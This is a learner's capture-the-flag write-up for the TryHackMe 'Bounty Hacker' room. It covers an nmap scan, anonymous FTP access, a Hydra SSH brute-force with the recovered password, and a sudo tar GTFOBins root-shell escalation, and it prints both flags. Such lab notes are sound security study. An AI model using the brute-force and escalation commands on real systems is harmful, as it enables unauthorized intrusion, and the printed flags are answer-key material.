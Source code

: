 https://tryhackme.com/room/cowboyhacker
Notes + Key Takeaway

# Anonymous use and access on the ftp port
# Attacking username.txt with Hyrda and escalation there after
# Privilege escalation through exploiting sudo and tar privelages 





Need to restart the machine, was hanging up its ftp server.

Task 1 and 2 are jokes.

New ip is 10.10.104.230
Nmap scan: nmap -sC -sV - 10.10.255.118  


Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-03 10:52 EST
Nmap scan report for 10.10.255.118
Host is up (0.18s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.98.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Found information on the ftp server, possible username and password provided in clear text. 
Who wrote the task list?  
Opening the webpage up shows some dialogue from cowboy bepop and a jpb file.
May need to find hidden directories? 
Hint Have you visited FTP?
I actually don’t know how to access ftp, researching for now. 



Found https://phoenixnap.com/kb/linux-ftp

ftp 10.10.255.118


Tried the Anonymous username and logged in with no password?
Ls returned. 229 Entering Extended Passive Mode (|||10752|)?



ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
Same issue when ftp’ing and entering passive mode. 
In doing more research with (229 Entering Extended Passive Mode) Found a video explaining a work around. 


Explained that ftp> passive needed to be used after logging in.
Connected to 10.10.104.230.
220 (vsFTPd 3.0.3)
Name (10.10.104.230:kali): Anonymous
230 Login successful.


Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
Locks.txt results 
ftp> less lock.txt
Failed to open file.
ftp> less locks.txt

rEddrAGON          ReDdr4g0nSynd!cat3  Dr@gOn$yn9icat3        R3DDr46ONSYndIC@Te
ReddRA60N          R3dDrag0nSynd1c4te    dRa6oN5YNDiCATE     ReDDR4g0n5ynDIc4te
R3Dr4gOn2044        RedDr4gonSynd1cat3    R3dDRaG0Nsynd1c@T3  Synd1c4teDr@g0n
reddRAg0N            REddRaG0N5yNdIc47e    Dra6oN$yndIC@t3     4L1mi6H71StHeB357  
ReDdrag0n$ynd1cate  Dr@gOn$yND1C4Te  RedDr@gonSyn9ic47e        REd$yNdIc47e
dr@goN5YNd1c@73     rEDdrAGOnSyNDiCat3    rEDdragOn$ynd1c473  DrAgoN5ynD1cATE
r3ddr@g0N  ReDSynd1ca7e


Task.txt results 
ftp> less task.txt



1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.
Task doesn’t seem helpful, but I grabbed both of the files with mget.
May be able to use the locks against a known username. Although as of now, not really sure what the username is?
By accident, found the username or the answer to the question in the task list.
At the end there is a “-lin”

I already see the answer for What service can you brute force with the text file found?

SSH

What is the users password?
Found a basic hydra command which came to 
hydra -l lin -P locks.txt 10.10.104.230 ssh

Results: 
└─$ hydra -l lin -P locks.txt 10.10.104.230 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-03 11:15:45

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.104.230:22/
[22][ssh] host: 10.10.104.230   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-03 11:15:50

 Now that I have the username: lin and the pss: RedDr4gonSynd1cat3
I can use the command ssh lin@10.10.104.230's
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ ssh lin@10.10.104.230 
lin@10.10.104.230's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
ls returned a lonely file called user.txt
THM{CR1M3_SyNd1C4T3}

root.txt 
Kind of weird to just ask for a root.txt folder when I only see the user.txt. Need to check permission with sudo. Command run 
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
Seems like with can run /bin/tar as root, which may open the possibility of launching a payload from a reverse shell. Previous experience in the last box where this was being asked for. 
Going back to the gtfo bins which was the original location for the payload.
Searching /bin/tar and found https://gtfobins.github.io/gtfobins/tar/

Results here. 

in@bountyhacker:~/Desktop$     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
whoami: not found
# ls
user.txt
# 
# ls
user.txt
# 

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# # tar: Removing leading `/' from member names
# # whoami
root

weird because I still only see the file which makes me thing something is wrong here, starting over.,
when running sudo -l I have all permission which is even stranger.
Starting over with the command I found the root.txt with another run through.

THM{80UN7Y_h4cK3r}
